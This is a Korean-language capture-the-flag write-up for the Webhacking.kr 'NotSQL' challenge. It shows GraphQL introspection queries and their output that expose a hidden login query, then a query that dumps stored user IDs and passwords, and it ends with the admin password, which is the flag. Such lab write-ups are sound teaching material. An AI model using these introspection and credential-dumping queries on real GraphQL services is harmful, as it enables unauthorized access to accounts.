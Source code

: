 ```yaml
---
title: ["[Webhacking.kr] NotSQL (nosql - 150)"]
date: 2024-12-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, nosql, GraphQL]
---
```


`http://webhacking.kr:10012/?no=2`으로 요청을 보내면 보드를 구성하기 위한 스크립트 응답이 온다. 

```javascript
<script>
function getQueryVar(variable) {
    var query = window.location.search.substring(1);
    var vars = query.split('&');
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            return decodeURIComponent(pair[1]);
        }
    }
}
if(!getQueryVar("no")){
  q = `query{
    view{
      no,
      subject
    }
  }`;
  xhr = new XMLHttpRequest();
  xhr.open("GET", "/view.php?query="+JSON.stringify(q).slice(1).slice(0,-1),false);
  xhr.send();
  res = JSON.parse(xhr.response);
  for(i=0;i<res.data.view.length;i++){
    board.innerHTML += `<a href=/?no=${res.data.view[i].no}>${res.data.view[i].subject}</a><br>`;
  }
}
else{
  q = `query{
    view{
      no,
      subject,
      content
    }
  }`;
  xhr = new XMLHttpRequest();
  xhr.open("GET", "/view.php?query="+JSON.stringify(q).slice(1).slice(0,-1),false);
  xhr.send();
  res = JSON.parse(xhr.response);
  v = res.data.view;
  try{
    parsed = v.find(v => v.no==getQueryVar("no"));
    board.innerHTML = `<h2>${parsed.subject}</h2><br><br>${parsed.content}`;
  }
  catch{
    board.innerHTML = `<h2>???</h2><br><br>404 Not Found.`;
  }
}
</script>
```

스크립트를 보면 GraphQL을 사용하는 것을 알 수 있다.  
GraphQL 쿼리를 클라이언트 측에서 조작하여 DB에 숨겨진 flag를 찾는 문제로 보인다.  

[Pentesting GraphQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql) Hacktricks에는 없는 스킬이 없다.  


```
/view.php?query={__schema{types{name,fields{name}}}}

{"data":{"__schema":{"types":[{"name":"Board","fields":[{"name":"no"},{"name":"subject"},{"name":"content"}]},{"name":"Int","fields":null},{"name":"String","fields":null},{"name":"User_d51e7f78cbb219316e0b7cfe1a64540a","fields":[{"name":"userid_a7fce99fa52d173843130a9620a787ce"},{"name":"passwd_e31db968948082b92e60411dd15a25cd"}]},{"name":"Query","fields":[{"name":"view"},{"name":"login_51b48f6f7e6947fba0a88a7147d54152"}]},{"name":"CacheControlScope","fields":null},{"name":"Upload","fields":null},{"name":"Boolean","fields":null},{"name":"__Schema","fields":[{"name":"description"},{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"specifiedByUrl"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"}]},{"name":"__TypeKind","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"isRepeatable"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null}]}}}
```  
먼저, GraphQL 스키마와 관련된 Introspection 쿼리를 날려보자.  
화면에 출력되는 `Board` 타입 외에도 다양한 타입이 존재한다.  
`User_d51e7f78cbb219316e0b7cfe1a64540a`타입에 `userid_a7fce99fa52d173843130a9620a787ce`필드와 `passwd_e31db968948082b92e60411dd15a25cd`필드가 존재한다.  
또한, `Query`타입에 실제 쿼리 가능한 작업들이 정의되어 있는데, `view`와 `login_51b48f6f7e6947fba0a88a7147d54152`쿼리가 있다.  


```
/view.php?query={__schema{queryType{fields{name,description}}}}

{"data":{"__schema":{"queryType":{"fields":[{"name":"view","description":null},{"name":"login_51b48f6f7e6947fba0a88a7147d54152","description":null}]}}}}
```
쿼리 타입은 이렇게도 조회가 가능하다.  


```
/view.php?query={login_51b48f6f7e6947fba0a88a7147d54152{userid_a7fce99fa52d173843130a9620a787ce,passwd_e31db968948082b92e60411dd15a25cd}}

{"data":{"login_51b48f6f7e6947fba0a88a7147d54152":[{"userid_a7fce99fa52d173843130a9620a787ce":"test-user","passwd_e31db968948082b92e60411dd15a25cd":"test-password"},{"userid_a7fce99fa52d173843130a9620a787ce":"admin","passwd_e31db968948082b92e60411dd15a25cd":"FLAG{i_know_how_to_use_graphql}"}]}}
```
쿼리 기능을 활용해서, 두 필드에 대한 값을 조회하였다.  
admin의 비밀번호가 flag였다.  